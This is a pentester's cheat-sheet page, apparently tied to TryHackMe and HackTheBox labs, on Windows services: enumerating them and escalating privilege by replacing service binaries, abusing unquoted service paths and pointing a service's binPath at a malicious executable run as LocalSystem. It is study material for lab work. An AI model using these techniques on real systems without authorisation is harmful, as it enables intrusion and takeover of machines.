# Windows services

[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![steelmountain](../../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-lg-2"><div>

You can learn more about Windows services [here](/operating-systems/windows/_knowledge/index.md#windows-services).

* 🗺️ List services

```shell!
PS> Get-Service
PS> net start
PS> sc.exe query # with infos
```

* 🔎 Get more info about a service

```shell!
PS> sc.exe qc xxx
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: xxx
  [...]
  BINARY_PATH_NAME   : C:\[...]\service.exe
  [...]
```
</div><div>

🔥 In CTFs, you may be able to start/stop the service manually

```shell!
PS> sc.exe stop xxx
PS> # do your job
PS> sc.exe start xxx
```

🍀 Notable services: `vss`, `Spooler`, `wuauserv`, etc.

➡️ See also: [Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 🥔 and [SweetPotato](https://github.com/CCob/SweetPotato) (1.2k ⭐).

➡️ [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675) (CVE-2021-1675) vulnerability in Spooler service.

➡️ Users in group `Server Operators` can start/stop some services. They can also [edit](#insecure-service-permissions) some services, such as to replace the binary path.
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Insecure permissions

The current user may be able to replace the service with a malicious executable (ex: revshell.exe)

```shell!
PS> icacls C:\[...]\service.exe
PS> move C:\[...]\service.exe C:\[...]\service.exe.old
PS> icacls C:\[...]\malicious.exe /grant Everyone:F
```
</div><div>

#### Unquoted Service Path

If the service is using a PATH in which there are spaces, the service isn't quoted, and the hacker can create files, then the hacker may create an executable that is executed with the rest of the path in argument.

```shell!
PS> icacls $Env:appdata\Vulnerable Program\service.exe
PS> move C:\[...]\malicious.exe $Env:appdata\Vulnerable.exe
PS> # the service will execute
PS> # $Env:appdata\Vulnerable.exe Program\service.exe
```

#### Insecure Service Permissions

[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

It occurs if we can edit the permissions of a service, such as being able to change the location of the binary. Use the [accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) command. If the user is granted `SERVICE_ALL_ACCESS` on the service, then have fun.

```shell!
PS> # LocalSystem is the highest privileged account available
PS> sc.exe config xxx binPath=C:\[...]\malicious.exe  obj= LocalSystem
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* It's recommended to use service accounts for services.
* Most services run with LocalSystem privileges by default
* From the SCM, we can configure an application to be executed if a service fails. If one was configured, it can be exploited.
</div><div>
</div></div>